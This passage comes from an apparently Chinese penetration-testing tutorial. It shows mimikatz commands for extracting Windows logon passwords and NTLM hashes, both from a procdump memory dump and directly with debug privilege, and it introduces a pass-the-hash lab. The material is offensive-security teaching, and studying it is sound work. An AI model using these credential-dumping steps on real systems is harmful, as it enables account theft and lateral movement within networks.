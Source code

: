 [![](assets/1706496056-1fa36632f11314106120876942c75006.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172304124-1165193945.png)

> 在这⾥可以看⻅图中带有管理员信息，若是中真实环境中拿到此信息基本就宣告着结束。

#### 3、进阶使用

①利用 procdump 导下来的 dump 文件与 mimikatz 配合使用获取凭据

```plain
mimikatz # log      //记录所得到的信息
mimikatz # sekurlsa::minidump passwd.dmp     //切换环境（挂载 dmp 文件）
mimikatz # sekurlsa::logonpasswords     //列出所有可用的凭据
```

②直接利用 minikatz 获取凭据（需要管理权限）

```plain
mimikata # log          //记录所得到的信息
mimikatz # privilege::debug       //提权（获得 mimikatz 程序的特殊操作）
mimikatz # sekurlsa::msv     //提取内存的 HASH 值
mimikatz # sekurlsa::logonpasswords      //列出所有可用的凭据
```

## 五、实验：PTH（pass-the-hash）哈希传递

### ①简介

哈希传递是⼀种⿊客技术，攻击者可⽤使⽤⽤户密码的 hash 对远程服务器进⾏身份验证，扩⼤战果。其实就是⼀种 `撞库` 的⾏为。在拥有 NTLM hash 的情况下，我们可以⾮常轻易的使⽤ mimikatz 的 `sekurlsa::pth` 发起⼀次 PTH。
